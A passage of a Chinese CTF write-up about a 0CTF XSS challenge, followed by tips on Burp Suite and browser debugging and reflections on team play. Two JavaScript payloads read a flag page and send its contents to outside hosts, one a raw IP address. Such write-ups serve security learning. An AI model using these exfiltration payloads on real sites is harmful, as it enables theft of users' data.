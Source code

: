 ```html
  </body>
</html>
```

伪协议解码

```Js
var xhr = new XMLHttpRequest();
xhr.open('GET', 'https://router.vip/flag.php', false);
xhr.send();
if (xhr.status == 200) {
  location='https://12345609861router.vip/1234/?result='+xhr.responseText;
}
```



然后就能得到flag： `flag{th1s_is_fr0m_a_re4l_cas3}`

[WP](https://ctftime.org/writeup/5956)





### 其他的收获

1. 如果发现jquery用不了，写原生的js又太蛋疼，可以加载一个jquery进来，继续干。当然，前提那个页面是你可控的。

   ```html
   <script src="https://cdn.bootcss.com/jquery/2.2.4/jquery.min.js"></script>
   <script type="text/javascript">
   $.get("https://router.vip/flag.php",function(data){
   //alert(data);
   	location.href="http://119.29.135.206:23333/"+escape(data);
   });
   </script>
   ```

   ​

2. 在调试网络请求的时候，发现一款chrome有一个更细微的网络监控

   https://segmentfault.com/q/1010000000364871

   ![net-internals](http://momomoxiaoxi.com/img/post/0ctf/net-internals.png)

3. 这里学到了一个burp suite的小技巧

   原来burpsuite可以用来生成表单

   ![burp](http://momomoxiaoxi.com/img/post/0ctf/burp.png)

   ![0ctfoscf](http://momomoxiaoxi.com/img/post/0ctf/0ctfoscf.png)

   生成ajax格式的（简直是我这种弱渣js选手的救星）

   ![ajaxburp](http://momomoxiaoxi.com/img/post/0ctf/ajaxburp.png)

4. 赛后务必学习WP，务必复现WP，务必总结文档！！收获很多。



### 废话

这次0ctf，第一次正式以blue-lotus参赛，队友们都很拼。第二晚，我们Web组一起怼simpleXSS弄到了将近4点，老司机大佬们3点半的时候，还在继续怼各种二进制，韦博看那个OTP整整看了两天，晚上睡觉还一直记着那道题..实在话，比赛或许最重要的不是最后的成绩，而是有一群队友肯陪你疯～

回顾整场比赛，真是深深觉得自己的js功底太差了，得好好补补。越学越觉得自己懂得东西真的太少太少，还需要学习很多很多套路orz。

